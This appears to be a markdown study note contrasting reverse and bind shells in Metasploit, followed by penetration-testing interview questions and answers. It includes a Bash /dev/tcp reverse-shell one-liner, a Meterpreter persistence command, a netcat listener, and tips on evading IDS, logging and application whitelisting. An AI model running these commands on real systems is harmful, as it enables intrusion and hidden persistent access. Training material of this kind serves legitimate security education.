 # Reverse Shell vs. Bind Shell in Metasploit

## Reverse Shell: Attacker's VM opens Ports & Listen
- Type of `shell where the target machine connects back to the attacker's machine.`
- The target machine executes the payload and initiates a connection to the attacker's machine.
- The attacker listens for incoming connections on a specific port.
- Commonly `used when the target machine is behind a firewall or NAT`, making it difficult to connect directly to it.

## Bind Shell: Target's VM opens Ports & Listen
- Type of `shell where the target machine opens up a port and waits for the attacker to connect to it.`
- The target machine executes the payload and listens on a specific port.
- The attacker connects to the target machine’s listening port.
- Commonly `Useful when the attacker cannot set up a listener or if the target machine allows inbound connections.`

---
---

# Interview QnA:

## 1. Suppose you have successfully exploited a vulnerability in a web application and you now need `to establish a remote shell. The target system is behind a strict firewal` that blocks incoming connections. Which type of shell would you use, bind or reverse, and why?
- `Reverse shell as firewall allows outbound traffic & target VM will connect back to Attcker's VM`

## 2. Imagine you are testing a corporate network and you have compromised a server. You need `to maintain a persistent connection with this server`. Describe the steps you would take to set up a reverse shell that can reconnect automatically if the connection is lost.
- You will need to set up a persistence script that will run every time the target machine starts up. `set persistence true` after setting up the payload.
- To make the reverse shell persistent, you will need to run the persistence script `run persistence -U -i 5 -p 4444 -r <LPORT>` in the meterpreter session:

> Data Exfiltration: They use modules to search for sensitive files and credentials stored on the server, copying them to their machine for analysis.

## 3. You are working in a restricted environment where outgoing traffic is `heavily monitored` and only a few ports are open. How would you `configure a reverse shell to evade detection and ensure the shell remains undetected`?
- `Choose commonly allowed ports` (e.g., 80 for HTTP, 443 for HTTPS) to send reverse shell traffic.
- `Encrypt the traffic using SSL/TLS` (e.g., with tools like OpenSSL) to make it appear as regular HTTPS traffic
- `Use tools like obfsproxy or obfs4 to obfuscate the traffic`, making it look like legitimate HTTP or other benign traffic.
- `Utilize DNS tunneling techniques` such as dnscat2 or iodine to encapsulate the reverse shell traffic within DNS requests,

## 4. During a penetration test, you find that the `target system has a bind shell running on a non-standard port`. Explain how you would connect to this bind shell from your machine. `What tools would you use?`
- Netcat (nc): Netcat is a versatile networking utility that can create TCP or UDP connections to specified ports.
- Telnet: Telnet can be used if the bind shell supports plaintext communication and doesn't require encryption.

## 5. Suppose you're unable to establish a direct connection via a bind or reverse shell due to strict network policies. What `alternative methods or tools could you use to achieve remote access` to the target system?
- XSS, CSRF, or other browser vulnerabilities to execute code on target systems.
- Exploit a known vulnerability in the web application (e.g., SQL injection) to upload a PHP web shell.

## 6. You have a reverse shell running on a compromised system, and you need `to transfer a large file from your local machine to the target system. Explain how you would accomplish this securely and efficiently.`
- Compress the file using `gzip/zip` and transfer using `SCP or SFTP` 

## 7. While performing a penetration test, you find that the target system is using an Intrusion Detection System (IDS) that can detect common shell connections. How would you `obfuscate your reverse shell traffic to avoid detection by the IDS?`
- `Encrypting your reverse shell traffic` prevents the IDS from inspecting and understanding the payload.
- `Use HTTPS/TLS` as it makes your traffic appear as legitimate web traffic, often bypassing IDS rules that focus on typical shell connections.

## 8. Consider a scenario where the target environment restricts the execution of common reverse shell binaries (e.g., netcat). How would you `achieve a reverse shell without using traditional tools?`
- Using Bash: `Use the Bash built-in /dev/tcp to create a reverse shell` eg. `bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'`
- Or using `perl, python, powershell, php etc`

## 9. You need to set up a reverse shell on a Windows machine that has a strict application whitelist policy. How would you go about `bypassing this restriction to establish your shell?`
- `Use the allowed applications and built-in system utilities eg. PowerShell, Windows Script Host (wscript/cscript), and Microsoft Office Macros (VBA macros), CertUtil (Certificate mgmt utility) to download a script or binary from a remote server.

## 10. During a penetration test, you encounter a target system that logs all incoming and outgoing network connections. How would you set up a reverse shell `to minimize your footprint and avoid leaving logs?`
- `Existing Whitelisted Services` (making your reverse shell traffic blend in with legitimate traffic.)
- `HTTPS Reverse Shell`: Use HTTPS to encrypt and obfuscate the reverse shell traffic, making it appear as regular web browsing activity.


## 11. Imagine a scenario where the `target system is running a web server with a known vulnerability`. Describe `how you would exploit this vulnerability` to establish either a bind or reverse shell, depending on the network constraints.
- Identify the Vulnerability (Nmap, Nessus, OpenVAS, or specific exploit databases like Exploit-DB, Metasploit)
- Craft the Exploit (using msfvenom)
- Deliver/Execute the Exploit (Using tools like curl, wget, or a custom Python script to send the malicious request to the web server.)
- Establish the Shell (Listen on Attacker's VM: nc -lvnp attacker_port)
- - When the HTTP request is executed, the reverse shell will connect back to the attacker machine, providing a shell.
